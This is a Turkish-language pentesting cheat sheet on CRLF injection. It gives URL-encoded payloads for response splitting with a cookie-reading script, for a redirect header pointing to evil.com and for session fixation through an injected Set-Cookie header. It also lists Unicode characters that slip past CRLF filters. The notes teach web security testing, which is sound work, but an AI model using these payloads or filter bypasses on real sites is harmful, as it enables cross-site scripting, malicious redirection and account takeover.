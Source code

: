 # CRLF Nedir?
CRLF Injection, saldırganın HTTP başlıklarına CRLF karakterleri (\r\n) enjekte edebilmesi durumunda ortaya çıkar. Bu durum, HTTP Response Splitting'e yol açabilir. Bir web uygulaması, HTTP başlıklarını oluştururken kullanıcı girdisini kullanıyorsa. Saldırgan, bu girdiyi manipüle ederek ek başlıklar enjekte edebilir veya HTTP yanıtını bölebilir. Bu durum şu güvenlik risklerine yol açabilir:

- Cross-Site Scripting (XSS): İkinci yanıta kötü amaçlı script ekleme.
- Cache Poisoning: Yanlış içeriğin önbelleğe alınmasını sağlama.
- Header Manipulation: Başlıkları değiştirerek kullanıcıları veya sistemleri yanıltma.

# Cross-Site Scripting
CRLF injection ile en kolay istismar yöntemi, sayfanın gövdesini (body) yeniden yazmaktır. Bu teknik javascript kodu çalıştırmak için kullanılabilir.

Örnek istek:
```url
%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Cscript%3Ealert(document.cookie)%3C/script%3E
```

Sunucu yanıtı:
```http
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 39
 
<script>alert(document.cookie)</script>
```

# Open Redirection
Kullanıcı girdisi, Location header’ında kullanılıyorsa, CRLF enjekte edilerek saldırgan yeni bir Location header ekleyebilir.

Örnek istek:
```url
%0D%0ALocation:%20https://evil.com
```

Sunucu yanıtı:
```http
HTTP/1.1 302 Found
Location: /normal-path
Location: https://evil.com
```

# Cookie Injection ve Session Fixation
Set-Cookie header’ında kullanıcı girdisi kontrolsüz kullanılıyorsa, saldırgan yeni cookie başlıkları enjekte edebilir.

Örnek istek:
```http
%0D%0ASet-Cookie:%20aASP.NET_SessionId=doonz8hcdquy72tkvfflqy34d;
```

Sunucu yanıtı:
```
Set-Cookie: ASP.NET_SessionId=doonz8hcdquy72tkvfflqy34d;
```

Bu durumda saldırgan, kullanıcının tarayıcısına kendi belirlediği sessionid değerini yazdırarak Session Fixation saldırısı gerçekleştirebilir. Kullanıcı bu session ID ile oturum açtığında, saldırgan aynı oturumu kullanarak hesabı ele geçirebilir (Account Takeover).

# Filter Bypass
RFC 7230, çoğu HTTP başlık alanı değerinin yalnızca US-ASCII karakter setinin bir alt kümesini kullanması gerektiğini belirtir.

| UTF-8 Character | Hex | Unicode | Stripped |
| --------- | --- | ------- | -------- |
| `嘊` | `%E5%98%8A` | `\u560a` | `%0A` (\n) |
| `嘍` | `%E5%98%8D` | `\u560d` | `%0D` (\r) |
| `嘾` | `%E5%98%BE` | `\u563e` | `%3E` (>)  |
| `嘼` | `%E5%98%BC` | `\u563c` | `%3C` (<)  |

# HTTP/2 ve HTTP/3 Neden Daha Güvenli
- HTTP/2 ve HTTP/3, header’ları binary frame formatında taşır.
- \r\n gibi ASCII karakter dizileriyle header sonlandırma mantığı yoktur.
- Bu yüzden klasik CRLF injection ile header yapısını bozamazsın.
- Ancak HTTP/1.1 fallback aktifse, hala risk vardır.

Referanslar:
- https://www.insecure.in/crlf-injection-attack
- https://www.invicti.com/learn/crlf-injection/
- https://playbook.sidthoviti.com/web-app-pentesting/crlf-injection
